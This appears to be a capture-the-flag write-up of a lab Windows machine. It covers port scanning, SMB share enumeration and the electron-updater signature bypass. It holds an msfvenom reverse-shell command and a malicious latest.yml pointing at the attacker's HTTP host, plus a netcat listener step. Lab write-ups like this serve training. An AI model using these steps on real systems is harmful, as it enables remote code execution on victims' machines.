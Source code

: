Found these ports :
Host: 10.10.10.237 

* 80 / open / tcp /  / http /  / Apache httpd 2.4.46 ((Win64) OpenSSL|1.1.1j PHP|7.3.27) / 
* 135 / open / tcp /  / msrpc /  / Microsoft Windows RPC / 
* 443 / open / tcp /  / ssl|http /  / Apache httpd 2.4.46 ((Win64) OpenSSL|1.1.1j PHP|7.3.27) / , 
* 445 / open / tcp /  / microsoft-ds /  / Windows 10 Pro 
* 19042 microsoft-ds (workgroup: WORKGROUP) / 
* 5985 / open / tcp /  / http /  / Microsoft HTTPAPI httpd 2.0 (SSDP|UPnP) 
* 6379 / open / tcp /  / redis /  / Redis key-value store

Port 445 is SMB, we connect using `smbclient`
`smbclient -L \\\\10.10.10.237\\`
We have a list of services :
![Pasted image 20210706175629.png|500](/assets/Pasted%20image%2020210706175629.png%7C500)
We connect to the service `Software_Updates`, we find directories and a pdf, we download the PDF. "UAT_Testing_Procedures.pdf"


We see that they are using electron-builder to build their apps. We google about it, and we find this [blogpost](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) which explains the vulnerability.

We have to provide a `latest.yml` to trigger the update, and use a malicious file with a quote `'` in the filename to bypass signature validation.

We compile a reverse shell using msfvenom, this will be our malicious update.
`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > r\'evshell.exe`
And our `latest.yml`

```yml
version: 1.1.2
files:
  url: http://10.10.15.1/r'evshell.exe
  sha512: jnn1I3GMG4YfeWQqC6iHz+LJRUBVZS/3C9pc++s1b8i0cS8lM+Dp14h4G33/sh62VelWi5y7aCyphkXDR+XnHg==

path: http://10.10.15.1/r'evshell.exe
sha512: jnn1I3GMG4YfeWQqC6iHz+LJRUBVZS/3C9pc++s1b8i0cS8lM+Dp14h4G33/sh62VelWi5y7aCyphkXDR+XnHg==
```

We upload the file to the client folder with our SMB access, setup a netcat listener, HTTP server with Python and wait a while for the update to trigger.

We get a shell, and we are user `jason` got to Desktop to get user flag.